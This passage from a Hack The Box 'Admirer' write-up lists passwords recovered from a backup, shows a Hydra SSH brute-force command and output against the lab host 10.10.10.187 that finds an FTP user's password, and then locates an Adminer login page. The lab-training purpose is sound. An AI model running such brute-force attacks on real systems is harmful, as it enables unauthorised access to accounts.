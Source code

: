 And another one with the different passwords:

```
Wh3r3_1s_w4ld0?
]F7jLHw:*G>UPrTo}~A
]F7jLHw:*G>UPrTo}~A"d6b
Ezy]m27}OREc$
fgJr6q#S\W:$P
%n?4Wz}R$tTF7
w0rdpr3ss01!
```

Then, I tried to brute-force the SSH service with [Hydra][kali-hydra]:

```
$ hydra -L usernames.txt -P passwords.txt -t 4 10.10.10.187 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-18 06:22:59
[DATA] max 4 tasks per 1 server, overall 4 tasks, 126 login tries (l:18/p:7), ~32 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
[STATUS] 106.00 tries/min, 106 tries in 00:01h, 20 to do in 00:01h, 4 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-18 06:24:11
```

The FTP credentials worked but the connection is automatically closed before
accessing any shell. I also tried the same brute-forcing technique on the FTP
service but with no more luck.

I decided to have a closer look at the files in the backup, and I eventually
stumbled upon this comment in `utility-scripts/db_admin.php`:

> // TODO: Finish implementing this or find a better open source alternative

After a quick search on the internet for "phpmyadmin equivalents", I found a
tool called "Adminer". Bingo!

![HTB Admirer Adminer login page](htb-admirer-adminer-login.png)


 [adminer-exploit-blog-post]: https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f "Adminer Script Results to Pwning Server?, Private Bug Bounty Program"
 [bettercap]: https://www.bettercap.org/ "Bettercap Official Website"
 [bettercap-caplets]: https://www.bettercap.org/usage/#caplets "Bettercap - Caplets"
 [bettercap-mysql-module]: https://www.bettercap.org/modules/ethernet/servers/mysql.server/ "Bettercap MySQL module"
 [htb]: https://hackthebox.eu/ "Hack The Box - Main Website"
 [kali-hydra]: https://tools.kali.org/password-attacks/hydra "Kali Tools - Hydra Package Description"
 [nmap-ftp-anon]: https://nmap.org/nsedoc/scripts/ftp-anon.html "Nmap script ftp-anon"
 [python-path]: https://docs.python.org/3/using/cmdline.html#envvar-PYTHONPATH "Python 3 Documentation - PYTHONPATH"